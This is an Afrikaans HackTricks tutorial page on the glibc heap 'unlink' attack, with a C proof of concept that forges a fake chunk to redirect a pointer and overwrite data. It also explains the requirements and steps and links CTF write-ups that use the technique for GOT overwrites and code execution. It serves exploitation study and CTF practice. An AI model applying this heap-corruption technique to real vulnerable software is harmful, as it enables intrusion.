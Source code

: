 # Unlink Aanval

<details>

<summary><strong>Leer AWS hak vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basiese Inligting

Toe hierdie aanval ontdek is, het dit meestal 'n WWW (Write What Where) toegelaat, maar sommige **kontroles is bygevoeg** wat die nuwe weergawe van die aanval interessanter en meer kompleks en **nutteloos** maak.

### Kode Voorbeeld:

<details>

<summary>Kode</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* Aanval werk nie as tcaches gebruik word nie (na 2.26)

### Doel

Hierdie aanval maak dit moontlik om **'n aanwyser na 'n blok te verander om 3 adresse voor homself te wys**. As hierdie nuwe ligging (omgewing waar die aanwyser geleë was) interessante dinge bevat, soos ander beheerbare toekenning / stapel..., is dit moontlik om hulle te lees/oorskryf om 'n groter skade te veroorsaak.

* As hierdie aanwyser in die stapel geleë was, omdat dit nou 3 adresse voor homself wys en die gebruiker dit moontlik kan lees en wysig, sal dit moontlik wees om sensitiewe inligting uit die stapel te lek of selfs die terugkeeradres (miskien) te wysig sonder om die kanarie aan te raak
* In CTF-voorbeelde is hierdie aanwyser geleë in 'n reeks aanwysers na ander toekenning, daarom, deur dit 3 adresse voor te maak en dit te kan lees en skryf, is dit moontlik om die ander aanwysers na ander adresse te laat wys.\
Aangesien die gebruiker moontlik ook die ander toekenning kan lees/skryf, kan hy inligting lek of nuwe adresse in willekeurige ligginge oorskryf (soos in die GOT).

### Vereistes

* Beheer oor 'n geheue (bv. stapel) om 'n paar blokke te skep wat waardes aan 'n paar van die eienskappe gee.
* Stapellek om die aanwysers van die vals blok in te stel.

### Aanval

* Daar is 'n paar blokke (blok1 en blok2)
* Die aanvaller beheer die inhoud van blok1 en die koppe van blok2.
* In blok1 skep die aanvaller die struktuur van 'n vals blok:
* Om beskermings te omseil, maak hy seker dat die veld `grootte` korrek is om die fout te vermy: `korrupte grootte teenoor vorige_grootte tydens konsolidasie`
* en die velde `fd` en `bk` van die vals blok wys na waar blok1 se aanwyser gestoor word met 'n afwyking van -3 en -2 onderskeidelik sodat `vals_blok->fd->bk` en `vals_blok->bk->fd` na 'n posisie in die geheue (stapel) wys waar die werklike blok1-adres geleë is:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* Die koppe van blok2 word gewysig om aan te dui dat die vorige blok nie gebruik word nie en dat die grootte die grootte van die vals blok bevat.
* Wanneer die tweede blok vrygelaat word, gebeur hierdie vals blok wat ontkoppel:
* `vals_blok->fd->bk` = `vals_blok->bk`
* `vals_blok->bk->fd` = `vals_blok->fd`
* Voorheen is daar gemaak dat `vals_blok->fd->bk` en `vals_blok->fd->bk` na dieselfde plek wys (die ligging in die stapel waar `blok1` gestoor was, sodat dit 'n geldige gekoppelde lys was). Aangesien **beide na dieselfde ligging wys** sal slegs die laaste een (`vals_blok->bk->fd = vals_blok->fd`) **effek** hê.
* Dit sal **die aanwyser na blok1 in die stapel oorskryf na die adres (of bytes) wat 3 adresse voor in die stapel gestoor is**.
* Daarom, as 'n aanvaller die inhoud van blok1 weer kan beheer, sal hy in staat wees om **binne die stapel te skryf** en moontlik die terugkeeradres oorskryf deur die kanarie te vermy en die waardes en punte van plaaslike veranderlikes te wysig. Selfs deur weer die adres van blok1 wat in die stapel gestoor is na 'n ander ligging te wys waar as die aanvaller weer die inhoud van blok1 kan beheer, sal hy oral kan skryf.
* Let daarop dat dit moontlik was omdat die **adresse in die stapel gestoor is**. Die risiko en uitbuiting kan afhang van **waar die adresse na die vals blok gestoor word**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## Verwysings

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Alhoewel dit vreemd sou wees om 'n ontkoppelingsaanval selfs in 'n CTF te vind, hier is 'n paar skrywes waar hierdie aanval gebruik is:
* CTF-voorbeeld: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* In hierdie voorbeeld is daar in plaas van die stapel 'n reeks malloc'ed adresse. Die ontkoppelingsaanval word uitgevoer om 'n blok hier toe te ken, dus om die aanwysers van die reeks malloc'ed adresse te beheer. Dan is daar 'n ander funksionaliteit wat dit moontlik maak om die inhoud van blokke in hierdie adresse te wysig, wat dit moontlik maak om adresse na die GOT te wys, funksieadresse te wysig om lekke en RCE te kry.
* 'n Ander CTF-voorbeeld: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* Net soos in die vorige voorbeeld is daar 'n reeks adresse van toekenning. Dit is moontlik om 'n ontkoppelingsaanval uit te voer om die adres na die eerste toekenning 'n paar posisies voor die begin van die reeks te maak en dan hierdie toekenning in die nuwe posisie te oorskryf. Daarom is dit moontlik om aanwysers van ander toekenning te oorskryf om na die GOT van atoi te wys, dit te druk om 'n libc-lek te kry, en dan atoi GOT met die adres na 'n een gadget te oorskryf.
* CTF-voorbeeld met aangepaste malloc- en vryfunksies wat 'n kwesbaarheid misbruik wat baie soortgelyk is aan die ontkoppelingsaanval: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* Daar is 'n oorvloei wat dit moontlik maak om die FD- en BK-aanwysers van aangepaste malloc te beheer wat (aangepas) vrygestel sal word. Verder het die heap die uitvoeringsbit, sodat dit moontlik is om 'n heap-adres te lek en 'n funksie van die GOT na 'n heapblok met 'n skelkode te wys om uit te voer.

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
